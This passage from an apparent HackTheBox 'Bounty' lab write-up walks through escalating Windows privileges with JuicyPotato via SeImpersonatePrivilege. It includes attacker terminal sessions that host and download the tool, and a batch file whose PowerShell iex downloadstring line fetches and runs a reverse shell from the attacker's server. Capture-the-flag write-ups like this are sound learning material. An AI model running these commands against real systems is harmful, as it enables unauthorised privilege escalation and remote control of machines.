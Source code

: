 It seems that `SeImpersonatePrivilege` is enabled. 

Googling for `seimpersonateprivilege exploit` resulted in this [article](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505).

Now lets craft our plan.

-   Download `JuicyPotato.exe` on local machine.
-   Host on local server.
-   Download and execute `JuicyPotato.exe` from netcat listener.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
10.10.10.93 - - [08/Jul/2022 22:38:35] "GET /JuicyPotato.exe HTTP/1.1" 200 -

- Netcat listener -
PS C:\windows\system32\inetsrv>cd c:\users\merlin\desktop
PS C:\users\merlin\desktop> (new-object net.webclient).downloadfile('http://10.10.14.23:6969/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

According to the JuicyPotato GitHub repository, here is how we can use the executable.

```bash
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

From what I understand, we can write a `.bat` program to for JuicyPotato to launch after executing.

So lets write a simple powershell script that downloads a reverse shell from our local server.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat exploit.bat                         
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.23:6969/revshell2.ps1')
```
